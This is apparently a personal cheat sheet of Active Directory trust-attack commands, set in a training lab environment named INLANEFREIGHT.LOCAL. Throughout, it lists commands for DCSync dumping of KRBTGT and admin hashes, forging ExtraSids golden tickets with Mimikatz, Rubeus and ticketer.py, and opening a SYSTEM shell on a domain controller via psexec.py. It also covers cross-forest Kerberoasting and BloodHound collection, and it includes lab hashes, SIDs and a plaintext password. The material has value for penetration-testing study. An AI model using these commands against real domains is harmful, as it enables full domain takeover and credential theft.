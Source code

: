 ### **Enumerating Trust Relationships**
1. Using Get-ADTrust: `Get-ADTrust -Filter *`
2. Checking for Existing Trusts using Get-DomainTrust: `Get-DomainTrust `
3. Using Get-DomainTrustMapping: `Get-DomainTrustMapping`
4. Checking Users in the Child Domain using Get-DomainUser: `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName`
5. Using netdom to query domain trust: `netdom query /domain:inlanefreight.local trust`
6. Using netdom to query domain controllers: `netdom query /domain:inlanefreight.local dc`
7. Using netdom to query workstations and servers: `netdom query /domain:inlanefreight.local workstation`
### **ExtraSids Attack - Mimikatz**
1. Obtaining the KRBTGT Account's NT Hash using Mimikatz: `lsadump::dcsync /user:LOGISTICS\krbtgt`
2. Using Get-DomainSID: `Get-DomainSID`
3. Obtaining Enterprise Admins Group's SID using Get-DomainGroup: `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`
4. Creating a Golden Ticket with Mimikatz: `kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt`
5. Confirming a Kerberos Ticket is in Memory Using klist: `klist`
6. Listing the Entire C: Drive of the Domain Controller: `ls \\academy-ea-dc01.inlanefreight.local\c$`
### **ExtraSids Attack - Rubeus**
1. Creating a Golden Ticket using Rubeus: ` .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`
2. `klist`
3. Performing a DCSync Attack: 
    1. `.\mimikatz.exe`
    2. `lsadump::dcsync /user:INLANEFREIGHT\lab_adm`
    3. `lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL`
### **Attacking Domain Trusts - Child -> Parent Trusts - from Linux**
1. Performing DCSync with secretsdump.py: `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`
2. Performing SID Brute Forcing using lookupsid.py: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`
3. lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID": `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`
4. Constructing a Golden Ticket using ticketer.py: `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`
5. Setting the KRB5CCNAME Environment Variable: `export KRB5CCNAME=hacker.ccache `
6. Getting a SYSTEM shell using Impacket's psexec.py: `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`
7. Performing the Attack with raiseChild.py: `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`
### **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows**
1. Enumerating Accounts for Associated SPNs Using Get-DomainUser: `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`
2. Enumerating the mssqlsvc Account: `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof`
3. Performing a Kerberoasting Attacking with Rubeus Using /domain Flag: `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`
4. Run the hash through Hashcat
### **Admin Password Re-Use & Group Membership**
1. Using Get-DomainForeignGroupMember: `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`
2. Convet SID to name: `Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500`
3. Accessing DC03 Using Enter-PSSession: ` Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator`
### **Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux**
1. Using GetUserSPNs.py: `GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
2. Using the -request Flag: `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
### **Hunting Foreign Group Membership with Bloodhound-python`
1. Running bloodhound-python Against INLANEFREIGHT.LOCAL: `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`
2. Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf: 
    1. `domain FREIGHTLOGISTICS.LOCAL`
    2. `nameserver 172.16.5.238`
3. Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL: `bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2`

